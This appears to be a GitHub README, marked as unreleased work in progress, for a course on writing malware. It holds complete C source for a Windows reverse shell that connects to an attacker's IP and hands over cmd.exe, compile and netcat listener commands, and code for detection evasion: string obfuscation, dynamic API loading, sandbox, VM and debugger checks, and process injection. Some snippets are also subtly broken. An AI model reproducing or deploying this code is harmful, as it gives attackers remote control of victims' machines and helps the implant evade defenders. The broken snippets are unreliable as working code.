

# THIS IS A WORK IN PROGRESS AND IS NOT PUBLICLY RELEASED YET

<!--
<p align="center">
    
</p>-->

### Shamelss plug

...

# What will be covered?

- [What the f*ck is malware?](#what-the-fck-is-malware)
- [Malware types](#types-of-malware)
- [Why should I learn to write it?](#why-write-malware)
- [Payload development](#payload-development)
- [Evading detection](#evading-detection)
- [Special delivery]()
- [Command and control]()
- [Ethical considerations]()


# What the f*ck is malware?

Malware is actually an abbreviation for malicious software. It is any software that is intentionally designed to cause damage, exploit, or disrupt systems/networks/devices. Malware can take a lot of different forms and serve a variety of purposes such as: stealing data, hijacking system resources, enabling unauthorized access. Typically malware is installed on the system secretly and is often delivered through deceptive techniques, like: phishing, infected software, or exploits.

# Types of malware

There are a lot of different types of malware, we created a table of as many as we could think of. We will not be going into all of these types of malware, but is good to know the different types. Its worth noting there are multiple different types of malware that are not on this list. We are sticking with the ones that are well known and do not have a controversy surrounding them.

| Type          | Description                                                                                                                                 | Examples                |
|---------------|---------------------------------------------------------------------------------------------------------------------------------------------|-------------------------|
| `Worms`       | Spreads independently without the need of a host file or user interaction                                                                   | `Wannacry`              |
| `Trojans`     | Malicious software designed as legitimate programs to trick users into running it                                                           | `Zbot`                  |
| `Ransomware`  | Encrypts files or locks users out of the system and demands a ransom to access the files/system                                             | `Lockbit`               |
| `Rootkits`    | A type of malware that provides admin access to a system while hiding its presence                                                          | `2005 Sony BMG Rootkit` |
| `Bootkits`    | A type of rootkit that infects the MBR (master boot record) this allows the malware to be loaded before the OS starts                       | `Mebromi`               |
| `Botnets`     | A collection of compromised computers/devices (zombies) remotely controlled by an attack. Typically used for DDOS attacks                   | `Mirai`                 |
| `Keyloggers`  | Records all the keystrokes that a user makes                                                                                                | `SpyEye`                |
| `Stealers`    | Focuses on stealing certain information off a users system, such as passwords, credit cards, or personal information                        | `Emotet`                |
| `Polymorphic` | Changes its code or appearance after spreading, preventing detection from signature based detectors                                         | `Storm worm`            |
| `Metamorphic` | Like polymorphic but changes the entire code base each iteration                                                                            | `Simile`                |
| `RAT`         | Remote access trojan, or remote access tool. Used to provide the attacker complete control of the system. Typically comes with a keylogger. | `DarkComet`             |
| `Logic bomb`  | Malicious code that lies dormant until triggered when a specific condition happens                                                          | `Farewell Dossier`      |
| `Data wipers` | Arguably the most destructive on this list. Is designed to completely destroy/corrupt the system                                            | `Shamoon`               |
| `Dropper`     | Typically a small initial stage of a larger attack. Designed to covertly install other malware onto the system                              | `Dridex`                |

# Why write malware?

It is important to note that I cannot legally tell you to go write malware and encourage you to deploy it and watch what it does. Writing malware comes with significant ethical and legal considerations. Being curious and wanting to learn more is natural and is why you are here reading this Bible, but it is essential to channel that curiosity responsibly in a way that does not infringe on other people, or cause them harm. 

Your pursuit of knowledge is admirable, and you should never apologize for wanting to fully understand the information you encounter. When approached correctly, studying and writing malware will provide valuable insights and foster immense growth. It is crucial to do this in a controlled environment. 

If you get anything from this course, let it be this: curiosity is not a crime, but acting irresponsibly has serious consequences. There are several ethical reasons people learn how to write malware:

- Understanding how it works
  - Provides deeper technical knowledge of the inner workings of malware
  - Provides a better understanding of how to reverse engineer malware successfully
- Building better defenses
  - By understanding the techniques used by attackers, defenders can better defend
  - Can provide better insight of how an attack occurred and provide easier patches
- Research and development
  - Test defenses by researching new types of attacks
  - Provide better threat hunting by knowing what the malware does

# Payload development

Payloads are small pieces of code that execute specific actions once deployed on the target. They are usually (ethically) used in the context of penetration testing, or malware research. 

When writing your payloads you always want to first define the purpose of the payload:

- Reverse shell
  - provides remote access to the system
- Data exfil
  - extract information from the target
- Keylogging
  - record every keystroke done by the user of the target system
- System manipulation
  - alter system settings, change/delete files

In this example we will be writing a basic reverse shell using C. This shell will connect to the system and provide us remote access to it:

#### The code
```c
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>

int main() {
    // init Winsock
    WSADATA wsa;
    SOCKET s;
    struct sockaddr_in server;
    
    // set the variables to use IE: attacker IP to connect to and port to connect to
    char *server_ip = "127.0.0.1"; 
    int server_port = 4444; 
    
    // init Winsock
    WSAStartup(MAKEWORD(2,2), &wsa);
    
    // create the socket
    s = socket(AF_INET, SOCK_STREAM, 0);
    if (s == INVALID_SOCKET) {
        WSACleanup();
        return 1;
    }
    
    // setup the server address struct
    server.sin_addr.s_addr = inet_addr(server_ip);
    server.sin_family = AF_INET;
    server.sin_port = htons(server_port);
    
    // duplicate socket to stdin, stdout, stderr
    if (connect(s, (struct sockaddr *)&server, sizeof(server)) < 0) {
        closesocket(s);
        WSACleanup();
        return 1;
    }
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    memset(&si, 0, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
    si.hStdInput = si.hStdOutput = si.hStdError = (HANDLE) s;
    
    // spawn the shell
    if (CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi) == 0) {
        closesocket(s);
        WSACleanup();
        return 1;
    }
    
    // wait for single object
    WaitForSingleObject(pi.hProcess, INFINITE);
    
    // cleanup
    closesocket(s);
    WSACleanup();
    return 0;
}
```
#### Code breakdown:

- Winsock
  - Windows uses Winsock for networking, in order to use networking on Windows you will need to initialize Winsock.
- Socket creation
  - A socket is created using the `socket` function. Specifying that it will use a IPv4 socket (`AF_INET`) and use TCP (`SOCK_STREAM`).
- Connection
  - The `connect` function is used to connect to the provided IP address. You will need to replace the IP and port to whatever is listening on your listener.
- Duplicating streams
  - The `STARTUPINFO` structure is used to redirect the standard input, output, and error streams to the socket. This allows the attacker to send commands and receive the output of those commands over the network.
- Spawning `cmd.exe`
  - The `CreateProcess` function starts the cmd.exe process which is the shell the attacker will use.
- Waiting for the process
  - `WaitForSingleObject` waits for the cmd.exe process to finish this keeps the connection alive.
- Cleanup
  - After the shell terminates, the socket is closed and Winsock is cleaned up using `WSACleanup()`

#### Compiling the code:

You will need to compile this code on Windows, the command to compile the code is:
```bash
gcc -Wall -o revshell rev_shell.c -l ws2_32
```
The `-lws2_32` links the required Winsock library.

#### Set up the listener:

To set up a basic listener all you need is netcat. This is a default installation on most Linux systems. All you need to run is:
```bash
nc -lvp 4444
```
Flags:
- `-l`
  - Listen for incoming connections
- `-v`
  - Produce more verbose output
- `-p`
  - Specify the listening port

#### Example of reverse shell working:



# Evading detection

Malware usually attempts to evade detection so that it remains hidden and continues its process on the compromised system. Evading detection is crucial for most malware to succeed and achieve its objectives. In this section we will take our reverse shell and make it harder to detect by using obfuscation techniques.

#### String obfuscation

A simple technique to make detection harder is to obfuscate the strings you are using. As an example we can xor encrypt the `cmd.exe` string and decrypt it at runtime:

```c
...

void xor_decrypt(*char data, int data_len, char key) {
  for (int i = 0; i < data_len; i++) {
    data[i] ^= key;
  }
}

int main() {
  ...
  // encoded cmd.exe 
  char encoded_cmd[] = { 'i', 'k', 'h', 'k', 'z', 'y', 0 };
  
  // decode the encoded string using key 0xAA
  xor_decrypt(encoded_cmd, sizeof(encoded_cmd) - 1, 0xAA);
  ...
}
```

This simple string obfuscation technique makes it so that this string is no longer readable in the binary file. This makes it harder to look for indicator strings such as: `cmd.exe`.

Much like string obfuscation we can also add control flow obfuscation. Adding useless or "dead" code into the logic of the program can make it much hard to analyze. You use this to disguise the malicious intents of the malware and make it seem like its doing something else.

```c
...

int main() {
  if (condition) {
    // execute payload
  } else {
    // this is never executed
  }
  ...
}
```

#### Dynamic import loading

Dynamic import loading (or dynamic API resolution) is a way to load imports without having to statically import them. This hides API calls and prevents static analysis of those API calls. This can be done with functions like `GetProcAddress`.

```c
...

typedef BOOL(WINAPI* CREATEPROCESS)(LPCTSTR, LPTSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, BOOL, DWORD, LPVOID, LPCTSTR, LPSTARTUPINFO, LPPROCESS_INFORMATION);
typedef SOCKET(WINAPI* SOCKETFUNC)(int, int, int);
typedef int (WINAPI* CONNECT)(SOCKET, const struct sockaddr*, int);
typedef void (WINAPI* CLOSESOCKET)(SOCKET);

int main() {
  ...
  HMODULE hKernel32 = LoadLibraryA("kernel32.dll");
  HMODULE hWs2_32 = LoadLibrary("ws2_32.dll");
  
  CREATEPROCESS pCreateProcess = (CREATEPROCESS)GetProcAddress(hKernel32, "CreateProcessA");
  SOCKETFUNC pSocket = (SOCKETFUNC)GetProcAddress(hWs2_32, "socket");
  CONNECT pConnect = (CONNECT)GetProcAddress(hWs2_32, "connect");
  CLOSESOCKET pClosesocket = (CLOSESOCKET)GetProcAddress(hWs2_32, "closesocket");
  ...
}
```

The above code calls `GetProcAddress` to load the API function instead of directly calling them. This will make it harder to statically analyze these functions within the file itself.

#### Delaying execution time

Sandboxes usually run on a set timeframe and run the code quickly to gather the information so that you don't have to wait. Sometimes malware uses sleep timers or obfuscated sleep functions in order to delay their execution and prevent the analysis from seeing their code run. 

```c
...

// create an obfuscated sleep timer
void obfuscated_sleep_timer() {
  HMODULE hKernel32 = LoadLibraryA("kernel32.dll");
  FARPROC pSleep = GetProcAddress(hKernel32, encoded_sleep);
  
  if (pSleep != NULL) {
    int delay = 6000;
    ((void (WINAPI *)(DWORD))pSleep)(delay);
  }
}

int main() {
  // call obfuscated sleep timer
  obfuscated_sleep_timer();
  // basic sleep timer
  Sleep(6000);
  ...
}
```

These timers will prevent the code from executing for 1 minute each.

#### Environment detection

A lot of the time malware will try to detect the environment it is being run in to prevent the ability to dynamically analyze it within a sandbox. This stops the execution if the environment isn't favorable for the malware to run.

```c
...

void is_sandbox() {
  // detects the system uptime, this is usually low on sandboxes
  DWORD tickCount = GetTickCount();
  // less than 1 minute
  if (tickCount < 60000) {
    return 1;
  }
  return 0;
 
int main() {
  if (is_sandbox()) {
    // exit if sandbox is detected
    return 0;
  }
  ...
}
```

This code uses the `GetTickCount()` Windows function that detects the uptime of the system. Since sandboxes are usually based off of virtual environments and are started on a "per malware" basis we can check how long the system has been alive and stop our execution if it is not favorable for us.

#### Polymorphic payloads

Changing the code on each execution is called polymorphism. This prevents the payload from being analyzed _easily_ by static analysis tools.

##### NOTE: polymorphic malware is rare. We are adding a simple polymorphic engine for clarity, this will most likely not work.

```c
...

void mutate_payload(char* data, int size) {
  for (int i = 0; i < size; i++) {
    data[i] ^= 0xAA;
  }
}

int main() {
  char code[] = { /* Your payload */ };
  mutate_code(code, sizeof(code));
  ...
}
```

Each time this is executed the payload will mutate, this makes it appear different in memory and disk allowing evasion from static analysis.

#### Packing

Packing an executable is when you compress and alter the file structure. This makes it more difficult to analyze with static analysis and usually requires unpacking of the file. You can pack using opensource tools like `UPX` or more comprehensive tools like `vmprotect`. These change how the files run and usually unpack the file at runtime in memory and execute from there.

#### Anti debugging

Detecting the presence of debuggers allows malware to prevent the program from being debugged by debugger tools. It will alter its behavior if the debugger is detected.

```c
...

int main() {
  // exit if a debugger is detected
  if (IsDebuggerPresent()) {
    exit(1);
  }
  ...
}
```

You can also overwrite the `int3` instructions shown in assembly with another instruction. This prevents breakpoints and provides more obfuscation in the assembly.

#### Detecting virtual machines

A lot of malware sample attempt to detect if they are within a virtual machine. They will then modify their behavior if a VM is detected.

```c
...

int is_vm() {
  unsigned int eax, ebx, ecx, edx;
  eax = 0x1;
  __asm__ __volatile__(
    "cpuid"
    : "=b"(ebx)
    : "a"(eax)
  );
  // detect VmWareVmWare string in CPU ID
  if (ebx == 0x7369) {
    return 1;
  }
  return 0;
}

int main() {
  if (is_vm()) {
    return 0;
  }
  ...
}
```

This above code will detect the CPU's identifier for a string that indicates it is in a VMWare virtual machine, it will exit if it is detected.

#### Process injection

Process injection is when malicious code is injected into legitimate processes like `explorer.exe` or `svchost.exe`. This helps hide the malicious intents of the malware by executing within a trusted process.

```c
...

int main() {
  HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); // replace with the target process PID
  LPVOID alloc_mem = VirtualAllocEx(hProcess, NULL, 4096, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(hProcess, alloc_mem, shellcode, sizeof(shellcode), NULL);
  CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
  CloseHandle(hProcess);
  return 0;
}
```

In this example the shellcode is injected into the trusted process and executed from the trusted process.

